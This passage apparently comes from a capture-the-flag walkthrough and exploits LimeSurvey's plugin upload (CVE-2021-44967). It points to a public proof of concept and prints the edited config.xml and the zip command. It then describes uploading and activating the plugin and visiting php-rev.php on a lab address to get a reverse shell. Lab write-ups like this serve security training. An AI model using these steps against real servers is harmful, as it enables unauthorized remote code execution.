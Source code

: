 ![](3.png)

![](4.png)

Populate the database and finish the installation

![](5.png)

![](6.png)

Now we login to admin panel and follow the instructions from this [blog](https://ine.com/blog/cve-2021-44967-limesurvey-rce). We need to download this [PoC](https://github.com/Y1LD1R1M-1337/Limesurvey-RCE). Modify `php-rev.php` and `config.xml` files. Set `version` to `6.3.7` in `config.xml`
```
<?xml version="1.0" encoding="UTF-8"?>
<config>
    <metadata>
        <name>Y1LD1R1M</name>
        <type>plugin</type>
        <creationDate>2020-03-20</creationDate>
        <lastUpdate>2020-03-31</lastUpdate>
        <author>Y1LD1R1M</author>
        <authorUrl>https://github.com/Y1LD1R1M-1337</authorUrl>
        <supportUrl>https://github.com/Y1LD1R1M-1337</supportUrl>
        <version>5.0</version>
        <license>GNU General Public License version 2 or later</license>
        <description>
                <![CDATA[Author : Y1LD1R1M]]></description>
    </metadata>

    <compatibility>
        <version>6.3.7</version>
    </compatibility>
    <updaters disabled="disabled"></updaters>
</config>

```

Zip the files
```
└─$ zip rce-plugin.zip ./php-rev.php ./config.xml
  adding: php-rev.php (deflated 61%)
  adding: config.xml (deflated 53%)
```

Go `Configuration -> Plugins -> Upload & Install`. Upload zip archive, install it and then activate the plugin.

![](7.png)

![](8.png)

We have to visit `http://10.10.93.59/survey/upload/plugins/Y1LD1R1M/php-rev.php` and then should receive receive our shell
